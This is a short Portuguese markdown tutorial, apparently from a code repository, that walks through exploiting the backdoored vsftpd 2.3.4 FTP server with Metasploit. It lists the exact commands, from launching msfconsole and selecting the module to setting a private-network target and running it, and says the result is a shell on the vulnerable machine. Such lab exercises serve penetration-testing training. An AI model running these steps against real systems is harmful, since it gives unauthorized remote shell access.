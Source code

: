 # Exemplo de Exploit Simples com Metasploit

## Passos básicos

1. Iniciar o console Metasploit:  
msfconsole

2. Buscar exploit:  
search vsftpd

3. Selecionar exploit:  
use exploit/unix/ftp/vsftpd_234_backdoor

4. Configurar alvo:  
set RHOSTS 192.168.1.100

5. Executar:  
run

## Resultado

Obtém-se uma sessão shell no sistema vulnerável, permitindo testes e análises.

